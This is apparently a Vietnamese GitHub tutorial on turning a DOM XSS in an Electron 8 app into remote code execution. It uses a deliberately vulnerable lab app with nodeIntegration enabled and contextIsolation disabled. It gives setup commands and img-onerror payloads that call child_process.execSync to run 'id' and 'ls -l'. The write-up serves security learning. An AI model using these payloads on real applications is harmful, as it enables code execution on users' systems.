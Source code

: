 # RCE-to-XSS-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được phát triển để tạo ra các ứng dụng máy tính để bàn bằng cách sử dụng công nghệ web như HTML, CSS và JavaScript.

Ứng dụng Electron 8.0.0, mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 
  Sử dụng Electron 8.0.0 open source 
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)
Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
<image 3>

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
<image 4>

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - Cài đặt này cho phép các quy trình kết xuất (tức là các trang web) tự do sử dụng API Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng của bạn, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - Cách ly bối cảnh là một tính năng bảo mật giúp tách bối cảnh JavaScript của trang được tải khỏi bối cảnh JavaScript của API Electron và tập lệnh tải trước. Bằng cách tắt tính năng này, bạn cho phép cả tập lệnh của trang và API Electron chia sẻ cùng một ngữ cảnh JavaScript. Lỗ hổng XSS trong trường hợp này có thể khiến kẻ tấn công xác định lại các nguyên mẫu tích hợp sẵn để giả mạo chức năng của ứng dụng hoặc giành quyền truy cập vào các API nhạy cảm.

File:
renderer.js
 <ảnh render má nội>

 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
Sau khi start :

<ảnh về lỗ hổng ứng dụng đã được setup>

Payloads :
test <img src=x onerror=alert("XSS")>
<image nghich hình đó>

<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 

<hình về id >


<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">

<imge về ls-l>




